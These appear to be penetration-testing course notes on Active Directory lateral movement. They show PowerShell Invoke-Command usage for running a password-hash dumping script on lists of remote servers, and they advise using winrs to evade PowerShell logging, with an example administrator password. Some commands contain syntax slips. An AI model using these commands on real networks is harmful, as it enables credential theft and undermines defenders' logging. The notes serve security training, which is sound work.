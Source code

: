 #### Use below to execute commands or script blocks - (command or script is converted to a base 64 encoded script block and sent to the server and then executed remotely)

```
Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
```

#### Use Below to execute scripts from files -

```
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 - ComputerName (Get-Content <list_of_servers>) 
```

#### Use below to execute locally loaded functions on remote machine -

```
Invoke-Command -ScriptBlock ${function:Get-Passhashes} -ComputerName (Get-Content <list_of_servers>)
```

#### In this case, we are passing arguments (keep in mind that only positional arguments could be passed this way) -

```
Invoke-Command -ScriptBlock $(function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

#### Use below to execute "Stateful" commands using Invoke-Command -

```
> $Sess = New_PSSession -ComputerName Server1
> Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
> Invoke-Command -Session $Sess -ScriptBlock {$Proc.name} 
```

```
> $adminsrv = New-PSSession dcorp-adminsrv
> Invoke-Command -ScriptBlock {whoami;hostname} -Session $adminsrv
```

### Tradecraft (powershell remoting) -

* PowerShell remoting supports the system-wide transcripts and deep script block logging.
* We can use **winrs** in place of **PSRemoting** to evade the logging (and still reap the benefits of 5985 allowed) between hosts.

```
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

* We can also use **winrs.vbs** and COM objects of WSMan object.

### Using Mimikatz -
